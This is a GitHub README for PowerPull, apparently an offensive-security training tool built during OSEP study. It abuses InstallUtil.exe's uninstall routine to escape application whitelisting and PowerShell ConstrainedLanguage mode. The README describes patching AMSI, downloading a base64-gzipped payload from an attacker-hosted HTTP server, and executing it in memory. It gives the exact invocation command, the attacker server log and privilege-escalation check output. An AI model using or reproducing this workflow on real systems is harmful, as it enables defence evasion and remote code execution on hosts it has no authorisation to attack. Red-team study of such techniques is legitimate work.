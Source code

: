 ## PowerPull ##


While studying for OSEP, I wanted to teach myself the ability to re-write functionalities and get familiarity to C#. The course does a fantastic job at teaching but proves creative thinking.
I wrote this utility to execute a custom instance of powershell runspace when challenged with a PowerShell `ConstrainedLanguage` mode environment, all within a ApplicationWhitelisted system that only allows a limited user to unsintall files.

This program prepares a binary which needs to be deployed on the target host and can be invoked with "InstallUtil.exe", which further abuses the "Uninstall(System.Collections.IDictionary savedState)" being allowed for limited users. 

Upon execution of the binary with installutils.exe, the following things occur.

1. Patch AMSI using a known technique.
2. Download the base64encoded and zipped data.
3. Base64 decode and Uncompress the data in memory.
4. Execute the contents within a custom powershell runspace.
5. render the output into the console.

The idea is host a file called `base64encodedGzip.txt` on an attacker controlled system. This file is prepared using another utility prepared inside this repo called 'BasicZipper'. A sample of this content is included as pow.txt which can be renamed as `base64encodedGzip.txt` on your attacker system.

```
└─$ sudo python -m http.server 8080 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.44.101 - - [06/May/2023 07:42:21] "GET /base64encodedGzip.txt HTTP/1.1" 200 -
192.168.44.101 - - [06/May/2023 07:43:12] "GET /base64encodedGzip.txt HTTP/1.1" 200 -
192.168.44.101 - - [06/May/2023 07:44:53] "GET /base64encodedGzip.txt HTTP/1.1" 200 -
```
The following cmdlet indicates that the host is running on ConstrainedLanguagemode
```
PS C:\> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

Download PowerPull.exe to a folder that a user can write and execute. Then invoke it using InstallUtils.exe `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U .\PowerPull.exe`

```
PS C:> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U .\PowerPull.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.9037.0
Copyright (C) Microsoft Corporation.  All rights reserved.

[+] Download successful!
At the stage of bypass!

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.

[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...

[*] Checking service permissions...

[*] Checking %PATH% for potentially hijackable .dll locations...

HijackablePath : C:\Users\evile\AppData\Local\Microsoft\WindowsApps\

[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...

DefaultDomainName    :
DefaultUserName      : evile
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :

[*] Checking for vulnerable registry autoruns and configs...
[*] Checking for vulnerable schtask files/configs...
[*] Checking for unattended install files...
UnattendPath : C:\Windows\Panther\Unattend.xml
[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...
```

Limitation: It appears only smaller scripts are able to be executed within the custom run space. So  your mileage may vary.

